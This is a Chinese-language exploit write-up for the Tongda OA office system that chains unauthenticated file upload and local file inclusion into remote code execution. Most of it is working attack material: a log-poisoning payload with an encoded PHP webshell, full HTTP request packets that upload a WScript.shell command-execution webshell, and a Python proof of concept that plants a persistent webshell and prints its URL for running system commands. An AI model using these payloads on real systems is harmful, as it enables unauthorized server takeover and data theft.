





通达oa 任意文件上传+rce+文件包含
================================

一、漏洞简介
------------

有些版本gateway.php路径不同

例如2013：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/ispirit/interface/gateway.php

例如2017：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/mac/gateway.php

    C:\MYOA>dir /s /b gateway.php
    C:\MYOA\webroot\mac\gateway.php

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

    http://www.0-sec.org/api/ddsuite/error.php

    POST:message=<?php file_put_contents("2.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4="));?>52011 

    然后包含

    http://www.0-sec.org/mac/gateway.php
    POST:json={"url":"..\/..\/logs\/oa\/2003\/dd_error.log"}

    在http://192.168.124.138/mac/2.php就是shell密码1

二、漏洞影响
------------

V11版2017版2016版2015版2013增强版2013版

三、复现过程
------------

我们根据官网发布的补丁，更新的是ispirit/im/upload.php这个文件，我们跟进这个文件

当传入P参数时，就可以绕过登录认证，直接获取到session。

跟进函数流程，逻辑判断是否传入DEST\_UID并且不为0，否则直接退出。

传入一个DEST\_UID后，访问，提示无文件上传

1\<=count(\$\_FILES)判断是否有文件上传，后面的逻辑，如果传入文件，直接进入未授权任意文件上传

可以使用python3的requests库进行文件上传操作，跟进代码，后面判断的是UPLOAD\_MODE上传模式的值，如果传入UPLOAD\_MODE，当取值为1，2，3时，将回显。

进入上传逻辑，调用upload()函数，upload()会对上传的文件进行后缀名检测，这里使用name.php.即可绕过文件后缀名限制，调用upload函数后，会返回一个\$ATTACHMENTS数组，这也是后面我们传入上传模式UPLOAD\_MODE值时会根据该值的取值返回\$ATTACHMENTS\[ID\]和\$ATTACHMENTS\[NAME\]

跟进upload()函数，\$ATTACHMENTS\[ID\]由add\_attach()函数返回在add\_attach()可以看到传入的文件存储路径为

\$MODULE的值在upload.php文件中指定为im

存储路径就保存在在upload.php文件中指定的attch/im/\$YM/文件夹下面，文件名就是\$ATTACH\_ID.\$ATTACH\_FILEadd\_attach()函数最终返回的前台的能够回显的\$ATTACHMENTS\[ID\]里面就包含上传的文件名和路径。

此时，我们就可以构造payloads进行任意文件上传

但是，开发者指定的保存路径不在wwwroot目录下面，我们只能通过文件包含漏洞进行包含触发漏洞。文件包含漏洞出现在/ispirit/interface/gateway.php，首先接从客户端接收一个\$json的参数，然后将\$json转换为数组后再转换成变量，当存在\$json数据中存在一个key为url的且不为空的值时，并且url传入的数据中有general/或者ispirit/或者module/时，执行include\_once包含该url。

此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

### 请求包

    POST /ispirit/im/upload.php HTTP/1.1
    Host: 10.10.20.116:88
    Content-Length: 658
    Cache-Control: no-cache
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
    Cookie: PHPSESSID=123
    Connection: close

    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="UPLOAD_MODE"

    2
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="P"

    123
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="DEST_UID"

    1
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
    Content-Type: image/jpeg

    <?php
    $command=$_POST['cmd'];
    $wsh = new COM('WScript.shell');
    $exec = $wsh->exec("cmd /c ".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ?>
    ------WebKitFormBoundarypyfBh1YB4pV8McGB--
    POST /mac/gateway.php HTTP/1.1
    Host: 10.10.20.116:88
    Connection: keep-alive
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    Content-Length: 71
    Content-Type: application/x-www-form-urlencoded

    json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user

### poc （上传+文件包含+rce）

    import os
    import requests

    # 定义webshell，因为是包含，所以用写入马比较方便
    # 这个马自带bypass disable_function 功能
    shell = '''<?php
    $fp = fopen('readme.php', 'w+');
    $a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
    fwrite($fp, urldecode($a));
    fclose($fp);
    ?>
    '''

    # 输入目标
    url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
    # 定义上传目录和包含目录
    upload_url = url+"/ispirit/im/upload.php"
    include_url = url+"/ispirit/interface/gateway.php"
    # 定义shell目录，如果要修改名字，需要把shell里面的一起改了
    shell_url = url+"/ispirit/interface/readme.php"
    files = {'ATTACHMENT': shell}
    # 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session
    upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
    # 上传
    upload_res = requests.post(upload_url, upload_data, files=files)
    # 此时会返回上传文件的路径
    path = upload_res.text
    # 解析返回值获取上传地址
    path = path[path.find('@')+1:path.rfind('|')
                ].replace("_", "\/").replace("|", ".")
    # 由于上传文件会自动改为jpg，所以要用gateway.php包含
    include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path+"\"}"}
    # 包含+自动写入shell
    include_res = requests.post(include_url, data=include_data)
    # 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限
    print('shell is here:'+shell_url+'?a=command')
